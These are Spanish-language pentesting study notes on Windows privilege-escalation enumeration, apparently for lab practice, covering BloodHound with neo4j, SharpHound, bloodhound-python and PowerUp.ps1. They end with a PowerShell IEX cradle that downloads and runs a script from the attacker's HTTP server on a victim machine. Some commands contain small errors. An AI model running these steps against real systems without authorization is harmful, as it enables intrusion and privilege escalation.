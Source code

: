 -----
- Tags: #escalada #windows #basico #teoria #practica
-----

# Recopilación exhaustiva

### Una vez probados todos los [[Intentos Básicos]] para ver si encontramos una vía potencial de escalar privilegios y que está no de resultados, podríamos intentar realizar una recopilación exhaustiva de información del sistema con herramientas automatizadas como [winPEAS.exe](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) así como con la realización de **base de datos de grafos** con información del sistema. 

----
# Base de datos de grafos con neo4j

### **Neo4j** es un software libre de Base de datos orientada a grafos, implementado en Java el cual podremos utilizar junto a **Bloohound**, una herramienta visor gráfico que tiene como objetivo realizar un mapeo de todas las relaciones, configuraciones en un Dominio de Windows siendo utilizando para identificar las rutas que pueden ser complejas para identificar, falencias de configuración de usuarios y políticas. 

```bash
sudo apt install neo4j bloodhound 
```

### Una vez instaladas las herramientas, es importante tener en cuenta que se necesita la version de **java 11** para que neo4j funcione correctamente. 

```bash
sudo update-alternatives --config java
```

### Una vez seleccionada la versión 11 de java, podríamos dar comienzo a la realización de nuestra base de datos.

```bash
neo4j console &>/dev/null & disown
```

### Una vez ejecutado el comando, se nos levantará un puerto (**7474**) en donde tendremos una interfaz gráfica en la web, donde deberémos configurar nuestras credenciales de la base de datos, por default las credenciales son **neo4j:neo4j**. 

### Una vez configurada nuestra contraseña, habría que ejecutar el comando: 

```bash
bloodhound &>/dev/null & disown 
```

### Ahora solo quedaría recopilar la información del sistema windows, en caso de tener una **powershell** podríamos hacer uso de la herramienta [sharphound.psq](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1),  una vez descargada esta herramienta, solo habría que subirla a la máquian víctima y ejecutarlo 

#### Para ver como se ejecuta el scrip, desde nuestra máquina linux: 
```bash
cat Sharphound.ps1 | grep function # Output -> Invoke-Bloodhound
cat Sharphound.ps1 | grep "Invoke-Bloodhound"
```
#### Una vez que sepamos como se hace para ejecutar el script: 
```powershell
> Import-Module .\Sharphound.ps1
> Invoke-Module -CollectionMethod All
```

### Este último comando creara un comrpimido **.zip** con la información del sistema le cual deberemos descargar para posteriormente subir a la interfaz del **bloodhound**. 

### Una vez subida la información a bloodhound, está herramienta nos podrá ayudar a detectar posibles rutas para escalar privilegios, entre otras cosas.

-----

# Bloohound-python 

### La herramienta [Bloodhoun-python](https://github.com/fox-it/BloodHound.py) es una herramienta que nos permite realizar la recopilación de información del sistema sin tener acceso al mismo, como en el caso de la creación de **Base de datos de grafos con Neo4j** en donde usamos el SharpHound.ps1 para la creación de un archivo **.zip** el cual tendremos que subir posteriormente a bloodhound. 

```bash
git clone https://github.com/fox-it/BloodHound.py
mv BloodHound.py bloodhound-py
cd !$ 
python3 setup.py install 

mv bloodhound.py bloodhound-python


python3 blodhound-python -c All -u 'username' -p 'password' -ns {target_ip} -d {domain}
```
### Esto lo que hará será crear archivos **json**.

----
# PowerUp.ps1

### [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) es un script en powershell que se encarga de automatizar la búsqueda de posibles vías interesantes para el intento de escalada de privilegio, lo que es muy útil de cara a la recopilación de información.

#### Máquina atacante
```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1

# Una vez descargado, podemos editarlo para realizar la invocación del mismo agregando la línea 'Invoke-AllChecks'

python3 -m http.server 80
```
#### Máquina víctima
```powershell
IEX(New-Object Net.WebClient).downloadString('http://{our_uip}/PowerUp.ps1')
```

